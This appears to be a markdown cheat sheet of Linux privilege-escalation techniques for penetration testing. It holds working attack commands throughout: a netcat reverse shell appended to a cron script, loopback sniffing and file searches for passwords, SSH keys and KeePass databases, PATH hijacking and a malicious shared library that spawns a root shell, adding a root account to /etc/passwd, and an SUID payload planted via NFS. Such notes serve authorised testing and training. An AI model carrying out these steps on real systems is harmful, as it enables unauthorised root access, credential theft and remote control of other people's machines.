 # 🐧 Linux Privesc

## Enumeration

```shell
# user
id
whoami

# system
hostname

# net
ifconfig
ip a
ip route
route
routel
sudo tcpdump -i lo -A | grep "pass"

# connections
ss -ntplu
netstat -ntplu

# users
cat /etc/passwd

# OS info
cat /etc/issue
cat /etc/*release
uname -a

# processes
ps aux
# wide
ps auxww
# tree
ps axjf

# installed apps on system (debian-based)
dpkg -l

# find writable paths
find / -writable -type d 2>/dev/null

# list drives mounted at boot time 
cat /etc/fstab
mount
lsblk # show available disks

# list loaded kernel modules and get specific info to find an exploit
lsmod
/sbin/modinfo <module>
```

!!! tip
    🍪 Try to switch users using username as pass

## User trails

```shell
# env vars
env
# .bashrc config
cat .bashrc
watch -n 1 "ps -aux | grep pass"
```

## Interesting Files

```shell
# check history
history
cat ~/.*history | less

# config files
find /home/<user> -type f \( -name "*.txt" -o -name "*.conf" -o -name "*.ini" \) 2>/dev/null

# .ssh folder
find /home/<user> -type d -name ".ssh" 2>/dev/null

# kdbx files
find / -name "*.kdbx" 2>/dev/null
```

## Cron jobs

!!! tip
    🍪 Examine periodic processes with [pspy](https://github.com/DominicBreuker/pspy)

```shell
ls -lah /etc/cron*
# current user's jobs
crontab -l
# root user's jobs
sudo crontab -l

# inspect cron logs
grep "CRON" /var/log/syslog

# reverse shell to cron file
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> > /tmp/f" >> scripts/user_backups.sh 
```

## SUID/SGID/Sudo/Caps

!!! tip
    🍪 Check [GTFOBins](https://gtfobins.github.io/) for escaping the programs

```shell
# find programs and groups with bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# list capabilities
/usr/sbin/getcap -r / 2>/dev/null

# check sudo privs
sudo -l
```

### Path Hijacking

A SUID executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Run **strings** on the file to look for strings of printable characters:

```shell
strings <suidexecutable>
```

One line (`apache2`) suggests that the service executable is being called to start the webserver, however the full path of the executable (`/usr/sbin/service`) is not being used.

Create a malicious file in a writable path and call it like the file the SUID executable calls.

```shell
echo '/bin/bash -i' > /tmp/apache2
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid executable to gain a root shell:

```shell
export PATH=/tmp:$PATH
```

### Shared Object Injection

A SUID executable can be vulnerable to shared object injection.
First, execute the file and note that currently it displays a progress bar before exiting.

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

```shell
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the `/home/user/.config/libcalc.so` shared object within the home directory, but it cannot be found.
Create the **.config** directory for the libcalc.so file: `mkdir /home/user/.config`

Compile a malicious code into a shared object at the location the **suid-so** executable was looking for it:

```c
#include <stdio.h>
#include <stdlib.h>
int main() { 
    system("/bin/bash"); 
    return 0; 
}
```

```shell
gcc -shared -fPIC /home/user/tools/suid/libcalc.c -o /home/user/.config/libcalc.so 
```

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

```shell
/usr/local/bin/suid-so
```

## Weak file permissions

```shell
# check if /etc/shadow can be readed and get the root hash or the file
unshadow passwd shadow > passwords.txt

# check if /etc/shadow can be writable and put a new root hash
mkpasswd -m sha-512 newpassword

# check if /etc/passwd can be writable and put a new root hash
openssl passwd newpass
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel exploits

```shell
cat /etc/issue
uname -r
arch

# find a public exploit
searchsploit <name>
```

## Automated Scripts

- [linPEAS.sh](https://github.com/peass-ng/PEASS-ng?tab=readme-ov-file)
- [Liinux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)

## NFS

```shell
# mountable shares
cat /etc/exports
showmount -e <ip>

# mount a share
mkdir /tmp/share
mount -o rw <ip>:<share> /tmp/share

# using Kali's root user, generate a payload and save it to the mounted share
# using Kali's root user, make the file executable and set the SUID permission:
chmod +xs share/shell.elf

# on the victim, as the low privileged user, execute the file to gain a root shell:
/<share_path>/shell.elf
```
